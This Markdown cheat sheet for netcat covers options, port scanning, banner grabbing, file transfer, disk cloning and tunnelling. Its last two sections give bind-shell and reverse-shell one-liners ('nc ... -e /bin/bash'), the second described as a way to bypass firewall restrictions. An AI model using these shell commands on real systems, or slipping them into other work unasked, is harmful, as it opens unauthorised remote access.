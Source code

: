 ```yaml
---
title: Netcat
date: '2020-11-25T18:28:43.000Z'
icon: icon-netcat
background: bg-blue-600
tags:
  - ncat
  - nc
  - utility
  - network
  - traffic
categories:
  - Linux Command
intro: This cheat sheet provides various for using Netcat on both Linux and Unix.
---
```


# nc

## Getting started

### Usage

Connect to a host located anywhere

`$ nc \[options\] \[host\] \[port\]`

```text
Listen for incoming connections
```shell script 
$ nc -lp port [host] [port]
```

### Option examples

| Option | Description | Example |
| :--- | :--- | :--- |
| `-h` | nc -h | Help |
| `-z` | nc -z 192.168.1.9 1-100 | Port scan for a host or IP address |
| `-v` | nc -zv 192.168.1.9 1-100 | Provide verbose output |
| `-n` | nc -zn 192.168.1.9 1-100 | Fast scan by disabling DNS resolution |
| `-l` | nc -lp 8000 | TCP Listen mode _\(for inbound connects\)_ |
| `-w` | nc -w 180 192.168.1.9 8000 | Define timeout value |
| `-k` | nc -kl 8000 | Continue listening after disconnection |
| `-u` | nc -u 192.168.1.9 8000 | Use UDP instead of TCP |
| `-q` | nc -q 1 192.168.1.9 8000 | Client stay up after EOF |
| `-4` | nc -4 -l 8000 | IPv4 only |
| `-6` | nc -6 -l 8000 | IPv6 only |

### Chat client-server

Server \(192.168.1.9\) `$ nc -lv 8000`

```text
Client
```shell script
$ nc 192.168.1.9 8000
```

## Examples {.cols-3}

### Banner grabbing

`$ nc website.com 80 GET index.html HTTP/1.1 HEAD / HTTP/1.1`

```text
or
```shell script
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25 `$ nc -zvn 192.168.1.1 21-25`

```text
Scan ports 22, 3306 and 8080
```shell script
$ nc -zvn 192.168.1.1 22 3306 8080
```

### Proxy and port forwarding

`$ nc -lp 8001 -c "nc 127.0.0.1 8000"`

```text
or
```shell script
$ nc -l 8001 | nc 127.0.0.1 8000
```

Create a tunnel from one local port to another

### Download file

Server \(192.168.1.9\) `$ nc -lv 8000 &lt; file.txt`

```text
Client
```shell script
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.

### Upload file

Server \(192.168.1.9\) `$ nc -lv 8000 &gt; file.txt`

```text
Client
```shell script
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:

### Directory transfer

Server \(192.168.1.9\) `$ tar -cvf – dir\_name \| nc -l 8000`

```text
Client
```shell script
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.

### Encrypt transfer

Server \(192.168.1.9\) `$ nc -l 8000 \| openssl enc -d -des3 -pass pass:password &gt; file.txt`

```text
Client
```shell script
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

Encrypt data before transfering over the network

### Clones

Server \(192.168.1.9\) `$ dd if=/dev/sda \| nc -l 8000`

```text
Client
```shell script
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda

### Video streaming

Server \(192.168.1.9\) `$ cat video.avi \| nc -l 8000`

```text
Client
```shell script {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat

### Remote shell

Server \(192.168.1.9\) `$ nc -lv 8000 -e /bin/bash`

```text
Client
```shell script
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.

### Reverse shell

Server \(192.168.1.9\) `$ nc -lv 8000`

```text
Client
```shell script
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

